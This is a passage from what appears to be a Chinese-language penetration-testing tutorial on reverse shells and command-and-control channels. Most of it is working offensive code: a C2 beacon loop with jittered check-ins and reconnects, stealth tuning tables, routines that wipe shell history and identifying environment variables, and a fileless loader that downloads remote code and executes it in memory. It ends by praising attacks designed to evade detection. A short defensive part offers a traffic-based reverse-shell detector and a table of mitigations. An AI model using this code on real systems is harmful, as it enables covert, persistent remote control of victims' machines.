                # 向C2请求任务
                self._send_msg(conn, b'CHECKIN')

                response = self._recv_msg(conn)

                if response and response != b'NO_TASK':
                    # 有任务，执行
                    result = callback(response)
                    self._send_msg(conn, result)
                else:
                    # 无任务，回传心跳
                    self._send_msg(conn, b'ALIVE')

            except (ConnectionError, OSError):
                # 连接断开，尝试重连
                conn = self._reconnect()
                if conn is None:
                    break

            sleep_time = self.get_sleep_time()
            time.sleep(sleep_time)

    def _reconnect(self, max_attempts=5):
        """重连逻辑，指数退避"""
        for attempt in range(max_attempts):
            wait = min(300, (2 ** attempt) * 10 + random.uniform(0, 5))
            time.sleep(wait)
            try:
                # 重新建立连接
                # ... 省略连接代码 ...
                return new_conn
            except Exception:
                continue
        return None

    def _send_msg(self, sock, data):
        length = struct.pack('!I', len(data))
        sock.sendall(length + data)

    def _recv_msg(self, sock):
        length_data = sock.recv(4)
        if not length_data:
            return None
        length = struct.unpack('!I', length_data)[0]
        data = b''
        while len(data) < length:
            data += sock.recv(length - len(data))
        return data
```

心跳机制的关键参数：

| 参数 | 推荐值 | 说明 |
|------|--------|------|
| 基础间隔 | 30-300秒 | 根据隐蔽需求调整，越长越隐蔽 |
| 抖动比例 | 20%-50% | 避免固定时间间隔被识别为特征 |
| 超时阈值 | 3-5个心跳周期 | 超过此数判定目标离线 |
| 重连退避 | 指数退避 | 2^n * base_interval，避免频繁重连暴露C2 |

### 7.7 检测与防御

了解攻击技术的目的之一是构建更有效的防御体系。

#### 7.7.1 反弹Shell的网络层检测

```python
import dpkt
import socket
import struct

class ReverseShellDetector:
    """
    基于流量特征的反弹Shell检测器

    检测指标：
    1. 长连接 + 低频数据包（命令交互模式）
    2. 数据包大小分布异常（Shell输入小、输出大）
    3. 连接方向异常（内网主机主动连外网非标准端口）
    """

    def __init__(self, min_session_duration=60, max_command_interval=120):
        self.sessions = {}
        self.min_duration = min_session_duration
        self.max_interval = max_command_interval

    def analyze_packet(self, timestamp, src_ip, dst_ip, src_port, dst_port, payload_size):
        """分析单个数据包"""
        session_key = (src_ip, dst_ip, src_port, dst_port)

        if session_key not in self.sessions:
            self.sessions[session_key] = {
                'start_time': timestamp,
                'last_time': timestamp,
                'packet_count': 0,
                'total_bytes': 0,
                'sizes': [],
                'intervals': [],
                'flags': []
            }

        session = self.sessions[session_key]
        session['intervals'].append(timestamp - session['last_time'])
        session['last_time'] = timestamp
        session['packet_count'] += 1
        session['total_bytes'] += payload_size
        session['sizes'].append(payload_size)

    def detect_anomalies(self):
        """检测异常会话"""
        suspicious = []

        for key, session in self.sessions.items():
            duration = session['last_time'] - session['start_time']
            if duration < self.min_duration:
                continue

            score = 0
            reasons = []

            # 指标1：长连接（持续数分钟以上）
            if duration > 300:
                score += 2
                reasons.append(f'长连接: {duration:.0f}秒')

            # 指标2：数据包大小模式——小包（命令）和大包（输出）交替
            sizes = session['sizes']
            if len(sizes) > 10:
                small_count = sum(1 for s in sizes if s < 100)
                large_count = sum(1 for s in sizes if s > 500)
                if small_count > 0 and large_count > 0:
                    ratio = min(small_count, large_count) / max(small_count, large_count)
                    if ratio > 0.3:
                        score += 3
                        reasons.append(f'交互模式: {small_count}小包/{large_count}大包')

            # 指标3：间隔模式——人类操作间隔（1-30秒）
            intervals = session['intervals']
            if len(intervals) > 5:
                avg_interval = sum(intervals) / len(intervals)
                if 1 < avg_interval < 30:
                    score += 2
                    reasons.append(f'平均间隔: {avg_interval:.1f}秒')

            # 指标4：非标准端口
            _, dst_ip, _, dst_port = key
            if dst_port not in [80, 443, 53, 8080, 8443]:
                score += 1
                reasons.append(f'非标准端口: {dst_port}')

            if score >= 4:
                suspicious.append({
                    'session': key,
                    'score': score,
                    'duration': duration,
                    'reasons': reasons
                })

        return sorted(suspicious, key=lambda x: x['score'], reverse=True)
```

#### 7.7.2 关键防御措施

| 防御层级 | 措施 | 效果 |
|---------|------|------|
| 网络层 | 出站流量白名单 | 仅允许80/443/DNS等必要端口出站 |
| 网络层 | SSL/TLS中间人检测 | 对加密流量做深度检测（需CA证书） |
| 主机层 | 进程白名单 | 限制可执行程序，阻止未授权的Python/bash执行 |
| 主机层 | EDR行为监控 | 检测 `os.dup2` + `subprocess` 组合行为 |
| 主机层 | Shell审计 | 记录所有bash/cmd交互式会话 |
| 应用层 | 最小权限原则 | Web应用不以root运行，限制RCE影响 |
| 应用层 | 输入验证 | 防止命令注入漏洞 |

### 7.8 常见误区与避坑指南

#### 7.8.1 技术误区

**误区一：加密即隐蔽**

加密能隐藏数据内容，但流量模式本身（包大小、时间间隔、连接持续时间）仍可被行为分析检测。真正的隐蔽需要同时伪装流量模式。

**误区二：忽略Shell环境变量**

反弹Shell可能继承目标进程的环境变量，暴露敏感信息（如代理配置、PATH中的工具路径）。应在建立Shell后立即清理或检查环境。

```python
import os

def clean_shell_environment():
    """清理Shell环境，避免信息泄露"""
    # 移除可能暴露身份的环境变量
    sensitive_vars = [
        'HISTFILE',       # 历史记录文件路径
        'HISTSIZE',       # 历史记录大小
        'SSH_CLIENT',     # SSH客户端信息
        'SSH_CONNECTION', # SSH连接信息
        'LS_COLORS',      # 可能暴露使用习惯
    ]
    for var in sensitive_vars:
        os.environ.pop(var, None)

    # 禁用命令历史记录
    os.environ['HISTFILE'] = '/dev/null'
    os.environ['HISTSIZE'] = '0'
```

**误区三：不处理编码问题**

Shell命令输出可能包含非UTF-8编码（如中文Windows系统的GBK编码），直接 `.decode()` 会抛异常。

```python
def safe_decode(data):
    """安全解码Shell输出"""
    encodings = ['utf-8', 'gbk', 'latin-1', 'cp1252']
    for enc in encodings:
        try:
            return data.decode(enc)
        except (UnicodeDecodeError, LookupError):
            continue
    return data.decode('utf-8', errors='replace')
```

**误区四：忘记处理大输出命令**

执行 `find /` 或 `cat large_file` 等产生大量输出的命令时，一次性 `recv()` 会导致内存溢出或超时。

```python
def safe_recv_all(sock, timeout=30, chunk_size=4096):
    """安全接收大量数据"""
    sock.settimeout(2)  # 单次recv超时2秒
    data = b''
    end_time = time.time() + timeout

    while time.time() < end_time:
        try:
            chunk = sock.recv(chunk_size)
            if not chunk:
                break
            data += chunk
        except socket.timeout:
            # 2秒内无新数据，认为传输完成
            break

    sock.settimeout(None)
    return data
```

#### 7.8.2 操作误区

**误区五：在目标机上使用交互式工具**

在反弹Shell中运行 `vim`、`top`、`htop` 等交互式程序会导致终端混乱。应使用非交互式替代命令：

```bash
# 替代top
ps aux --sort=-%cpu | head -20

# 替代vim/nano
echo "内容" > file.txt
cat file.txt

# 替代交互式grep
grep -r "pattern" /path/ 2>/dev/null
```

**误区六：不考虑防火墙和NAT**

在编写反弹Shell时，默认假设网络可达。实际环境中应处理：
- 目标机可能只允许HTTP/HTTPS出站
- 目标可能在NAT后面，无法直接连接
- 端口可能被ISP封锁（如25端口）

应对方案：使用常见端口（80、443）、使用HTTP/HTTPS隧道、使用DNS隧道。

### 7.9 进阶话题

#### 7.9.1 无文件Shell（Living off the Land）

不将任何文件写入磁盘，完全在内存中执行：

```python
import base64
import urllib.request

def fileless_payload_executor(url):
    """
    无文件执行器 —— 从远程加载代码并在内存中执行

    不在磁盘上留下任何文件
    """
    # 从URL获取加密/编码的载荷
    encoded_payload = urllib.request.urlopen(url).read()
    payload = base64.b64decode(encoded_payload)

    # 在内存中编译并执行
    exec(compile(payload, '<remote>', 'exec'))
```

#### 7.9.2 多层代理与跳板

在内网渗透中，经常需要通过多层跳板到达目标：



```python
import socks
import socket

def connect_through_socks_proxy(proxy_host, proxy_port, target_host, target_port):
    """通过SOCKS5代理连接目标"""
    sock = socks.socksocket()
    sock.set_proxy(socks.SOCKS5, proxy_host, proxy_port)
    sock.connect((target_host, target_port))
    return sock
```

#### 7.9.3 主流C2框架对比

了解现有框架有助于在实战中选择合适的工具：

| 框架 | 语言 | 协议 | 特点 | 学习曲线 |
|------|------|------|------|---------|
| Metasploit | Ruby | 自定义 | 最成熟、模块最多 | 中 |
| Cobalt Strike | Java | HTTP/HTTPS/DNS | 行业标准、团队协作 | 高 |
| Sliver | Go | HTTP/gRPC/WireGuard | 开源、现代架构 | 中 |
| Havoc | C++/Python | HTTP/HTTPS | 开源、UI友好 | 中 |
| Mythic | Python/Javascript | HTTP/WebSocket | 高度可扩展、容器化部署 | 高 |
| PoshC2 | Python | HTTP/HTTPS | Python生态、模块化 | 低 |

### 7.10 本节小结

反弹Shell和C2通信是渗透测试的核心技能。本节从底层文件描述符重定向原理出发，覆盖了以下关键知识：

1. **基础原理**：正向Shell与反弹Shell的区别、fd重定向机制
2. **实现层次**：从最小化实现到带重连的生产级实现
3. **安全通信**：SSL/TLS加密、AES自定义协议、流量伪装
4. **C2架构**：集中式/分布式/P2P架构、分阶段载荷投递
5. **高级技术**：进程注入与迁移、心跳抖动机制
6. **检测防御**：流量特征分析、多层防御策略
7. **常见误区**：编码、环境清理、大输出处理等实战问题

核心原则：**最有效的攻击是最难检测的攻击，而最难检测的攻击是理解所有检测手段后精心设计的攻击**。
